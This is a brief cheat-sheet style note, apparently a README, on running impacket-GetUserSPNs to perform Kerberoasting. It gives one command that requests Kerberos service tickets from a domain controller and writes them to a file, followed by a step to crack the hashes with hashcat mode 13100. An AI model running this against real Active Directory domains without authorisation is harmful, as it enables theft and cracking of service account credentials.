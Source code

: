# Impacket-GetUserSPNs

## Use this impacket module to perform a Kerberoasting attack

### 1) 

    impacket-GetUserSPNs DOMAIN/USER:PASSWORD -request -dc-ip DC_IP -outputfile TGS.txt

### 2) Crack hash with hashcat (Mode 13100)
